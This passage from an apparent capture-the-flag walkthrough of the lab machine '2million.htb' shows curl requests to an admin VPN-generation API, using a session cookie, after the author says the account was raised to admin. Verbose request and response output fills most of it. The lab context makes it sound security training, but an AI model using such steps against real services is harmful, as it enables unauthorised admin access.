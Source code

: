 Perfect! We have successfully updated our user account to an admin account.

Let's now try to generate our VPN file to verify that our admin privileges work.

```bash
curl -v -X POST -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:22:24 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [70 bytes data]
100 59 0 59 0 0 327 0 --:--:-- --:--:-- --:--:-- 325
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Missing parameter: username"
}
```

The username seems to be required. Let's add it to the data body.

```bash
curl -v -X POST -d '{"username": "0xMR007"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" -o vpn.ovpn
Note: Unnecessary use of -X or --request, POST is already inferred.
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 23
>
} [23 bytes data]
* upload completely sent off: 23 bytes
```
